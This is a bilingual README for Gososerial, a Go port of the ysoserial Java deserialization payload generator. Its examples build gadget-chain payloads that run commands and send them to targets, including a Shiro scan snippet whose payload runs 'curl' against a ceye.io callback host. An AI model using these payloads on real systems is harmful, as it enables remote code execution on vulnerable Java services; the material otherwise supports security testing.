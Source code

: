 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

- Support CommonsCollections1-7,K1-K4,CommonsBeanutils1 Now

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Example: Shiro Scan Code

```go
func TestFindShiro(t *testing.T) {
	......
	target := "http://192.168.222.132:8080/"
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	payload := gososerial.GetCC5("curl xxxxx.ceye.io")
	shiro.SendPayload(key, payload, target)
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
	......
}
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n
